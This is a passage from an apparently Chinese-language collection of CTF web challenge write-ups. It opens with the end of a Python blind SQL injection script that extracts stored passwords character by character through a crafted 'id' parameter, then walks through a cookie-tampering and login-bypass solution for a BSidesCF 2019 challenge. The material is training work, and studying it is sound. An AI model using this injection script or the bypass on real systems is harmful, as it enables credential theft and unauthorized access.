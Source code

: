 ```python
        right=127
        mid=(left+right)//2
        while left<right:
            while left < right:
                params = {
                    "id": "0^(ord(substr((select(group_concat(password))from(F1naI1y))," + str(x) + ",1))>" + str(mid) + ")"
                }
                r = requests.get(url=url, params=params)
                if "others~~~" in r.text:
                    left = mid + 1
                else:
                    right = mid
                mid = (left + right) // 2
            if left < 32 or right > 127:
                break
            flag += chr(mid)
            print("flag:",  flag)
            time.sleep(1)
getDatabase()
getTable()
getColmun()
getFlag()
```

 等他爆破完即可得到flag

 ## 17.[BSidesCF 2019]Kookie（改cookie）

是一个登录框，使用万能密码尝试进行登录

![image-20230627185505674](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627185505674.png)

但是发现#被编码了，在后面再加一个#

![image-20230627185736871](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627185736871.png)

![image-20230627185742956](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627185742956.png)

登录成功

看上面提示需要用到cookie，刷新界面抓包看一下cookie

![image-20230627185823362](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627185823362.png)

将cookie里面username值改为admin

![image-20230627185856055](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230627185856055.png)

得到flag

## 18.[BJDCTF2020]EasySearch（ssi代码rce）
